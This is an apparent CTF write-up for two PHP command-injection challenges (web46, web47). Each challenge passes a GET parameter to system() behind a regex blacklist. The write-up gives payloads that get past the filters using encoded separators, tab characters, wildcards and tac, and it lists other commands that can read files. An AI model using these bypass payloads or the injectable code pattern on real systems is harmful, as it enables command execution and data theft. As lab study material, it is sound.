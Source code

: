 ------

#### web46

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web47

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

命令读取的操作

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令：
grep test *file
strings
```
